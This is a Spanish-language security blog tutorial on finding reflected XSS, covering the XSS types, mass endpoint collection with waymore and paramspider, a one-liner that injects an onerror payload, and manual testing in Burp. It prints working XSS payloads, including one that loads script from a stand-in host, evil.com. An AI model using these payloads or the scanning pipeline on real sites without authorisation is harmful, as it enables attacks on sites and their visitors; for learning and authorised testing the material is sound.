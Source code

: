 ```yaml
---
title: "Detras del escenario - Tecnicas XSS #1  "
description: "En este Post exploraremos el ingenio y las técnicas basicas detrás de la busqueda de vulnerabilidades XSS, tambien usaremos herramientas para busqueda masiva de endpoints donde posiblemente se pueda explotar XSS."
pubDate: "Jun 02 2024"
heroImage: "/blog-placeholder-1.jpg"
postType: "hacking"
tags:
  - XSS
  - Payloads
  - Tools
  - Waymore
  - Paramspider
---
```



## Introducción al XSS

El **Cross-Site Scripting** (**XSS**) es una vulnerabilidad de seguridad web o componentes webs, ya que el impacto se ve reflejado en el navegador de la víctima, esto lo que permite es a los atacantes **inyectar** 💉 scripts maliciosos en los navegadores de las víctimas.

Un análisis realizado por Owasp Top 10 2021 nos dice que la inyección en el 94% de las solicitudes fueron probadas para algún tipo de inyección, con una tasa de incidencia máxima del 19%, una tasa de incidencia promedio del 3% y 274,000 ocurrencias. Las enumeraciones de debilidades comunes (CWE) notables incluyen:

- CWE-79: **Cross-Site Scripting (XSS)**
- CWE-89: SQL Injection
- CWE-73: External Control of File Name or Path

[Fuente - owasp.org](https://owasp.org/Top10/A03_2021-Injection/)


En esta primer parte haremos un poco de **Recon** utilizando herramientas y **Google Dorking** para colectar todos los puntos finales, y la explotación será manual donde.


## Tipos de XSS
Antes de continuar es importante primero entender los tipos de XSS y como funciona cada variante de esta CWE, recordemos que en XSS se explota es prácticamente el navegador, 


### - rXSS o Cross Site scripting reflective

El **Reflected XSS**, el script malicioso se refleja en la respuesta del servidor. Esto ocurre cuando los datos proporcionados por el usuario se devuelven inmediatamente en la respuesta sin ser adecuadamente validados o escapados.


### - sXSS o Cross Site scripting stored

El **Stored XSS**, el script malicioso se almacena en el servidor y se ejecuta cada vez que un usuario accede al dato almacenado. Esto es común en foros, comentarios y perfiles de usuario.


### - DOM-based XSS

El **XSS basado en DOM**, ocurre cuando el script malicioso se inyecta en el DOM de la página sin intervención del servidor. Esto ocurre cuando la inyección permite la manipulación del DOM del sitio web con datos no confiables del usuario.

### - Blind XSS

El **Blind XSS** este ocurre cuando la carga útil no se refleja directamente los resultados de la explotación del script malicioso en la interfaz de usuario. En lugar de eso, el payload de XSS es almacenado y ejecutado en un contexto diferente.



## Tools
una vez ya comprendiendo los tipos o contextos por los cuales se puede manifestar esta vulnerabilidad, ten en cuenta que esta primera parte será basada en XSS reflectivos, ahora bien las herramientas que utilizaremos en esta primera parte son estas:
- [*Burpsuite*](https://portswigger.net/burp/communitydownload) From Portswigger
- [*Logger ++*](https://portswigger.net/bappstore/470b7057b86f41c396a97903377f3d81) From Portswigger
- [*paramspider*](https://github.com/devanshbatham/ParamSpider) From Github
- [*waymore*](https://github.com/xnl-h4ck3r/waymore) From Github
- [*gf*](https://github.com/tomnomnom/gf) From Github
- [*uro*](https://github.com/s0md3v/uro) From Github
- [*qsreplace*](https://github.com/tomnomnom/qsreplace) From Github
- [*freq*](https://github.com/takshal/freq) From Github
- [*Open Multiple URLS*](https://chromewebstore.google.com/detail/open-multiple-urls/oifijhaokejakekmnjmphonojcfkpbbh) From Extensions Google

La metodología se basa en usar todas las **fingerprints** posibles, para buscar **endpoints** y colectar todos los parámetros reflejados posibles, esto lo haremos con **paramspider** + **waymore**, luego filtraremos con **uro** y **gf**, para posteriormente usar **qsreplace** + **freq** para enviar cargas útiles buscando cuál se refleja, luego pasaremos todas las urls colectadas por **open Múltiple URLS** con el proxy **Burp**, escuchando la idea es listar todas las urls que reflejan parámetros en el **Logger++** para luego realizar caza manual o validación manual.

### Collect endpoints

1. Primero seleccionamos el target y colectamos todos los puntos finales haciendo uso de **paramspider** y **waymore**.

---
### Waymore
```bash
#!/bin/bash
waymore -i "target.com" -mode U -url-filename -p 4
```
#### Output

![output waymore](./images/P2/1.png)

### Paramspider
```bash
#!/bin/bash
paramspider -d "target.com"
```
#### Output

![output paramspider](./images/P2/2.png)

---

## Unify endpoints

2. ahora lo que haremos será unificar los outputs.txt, con una simple línea en bash.


```bash
#!/bin/bash
cat paramspiders_output.txt waymore.txt > urls.txt
```

## Oneliner XSS check 

3. En esta linea haremos uso de las tools **gf** + **uro** + **qsreplace** + **freq** , sobre el archivo anteriormente generado *urls.txt*

```bash
#!/bin/bash
cat urls.txt | gf xss | uro | qsreplace '"><img src=X onerror=alert(1);>' | freq | grep "FOUND"
```

![alt text](./images/P2/3.png)

![alt text](./images/P2/4.png)

Aquí concluye una parte de la automatización. Como pueden ver, es bastante efectiva, pero no es infalible, ya que a veces puede generar falsos positivos. No te desanimes; recuerda que cuando aparece "FOUND" es porque lo que enviaste con qsreplace se reflejó en freq. Ahora, pasaremos a la fase de caza manual para tratar de explotar todos los parámetros reflejados en busca de XSS y no confiar al 100% en los resultados de freq. Primero, abrimos el proxy Burp, instalamos la extensión Open Múltiple URLs en el navegador y Logger++ en Burp.


## check manual Burpsuite + Logger++ + Open Múltiple Urls

Esta metodología está basada en la revisión manual de 1x1 de todas las urls colectadas y revisión de sus parámetros, se trata de copiar todos los puntos finales recolectados gracias al "fingerprint" de paramspider y waymore o sea las urls.txt, vamos al open múltiple urls y pegamos todas las urls y le damos open.

![alt text](./images/P2/5.png)

me gusta marcar las opciones no cargar hasta abrir la pestaña, cargar en un orden aleatorio e ignorar urls duplicadas, para tener un mejor control y que cuando sean muchas urls no explote el navegador je, je, le damos open urls, ahora veremos todas las peticiones procesadas en el burpsuite y filtraremos por las que reflejan parámetros.

![alt text](./images/P2/6.png)

En esta parte es donde empiezas a construir la carga útil dependiendo de como te response el servidor según lo que le enviaste en el parámetro **reflejado**, puedes hacerlo no muy agresivo pero validando tags HTML como los siguientes

```javascript
<img src=X>
<embed src="https://evil.com/t.js">
<a href="">click me</a>
```

También puedes usar estas tools online para codificar(**Unicode**, **Hex code**, **HTML code**, **HTML entity**) caracteres especiales por si hay escape o codificación en los parámetros recibidos.



- [*code references*](https://www.toptal.com/designers/htmlarrows/symbols/)
- [*JsFuck*](https://jsfuck.com/)

Es muy importante entender que esta parte manual requiere enfoque en el comportamiento del servidor con los valores de parámetros que estamos enviando, por ejemplo, si se fijan en la siguiente imagen, la carga útil no se reflejó, pero al modificarla según el contexto BOOM explota el punto final.

```javascript
<img src="x"onerror=javascript:alert(document.domain)> // esta no se refleja
<img src="x"onerror=javascriptt:alert(document.domain)> // esta si se refleja
```

![alt text](./images/P2/7.png)


## Conclusión
Aunque no es un post con técnicas avanzadas ni para expertos, indico las bases o por lo menos como iniciar en la búsqueda de XSS, la combinación de herramientas automatizadas y verificación manual es crucial para identificar y explotar vulnerabilidades XSS de manera efectiva. Aunque la automatización ayuda a ahorrar tiempo y a identificar posibles puntos de inyección, la revisión manual asegura la precisión y la validez de los hallazgos. La seguridad web es un campo dinámico y en constante evolución, por lo que mantenerse actualizado con las últimas técnicas y herramientas es fundamental para cualquier pentester web.
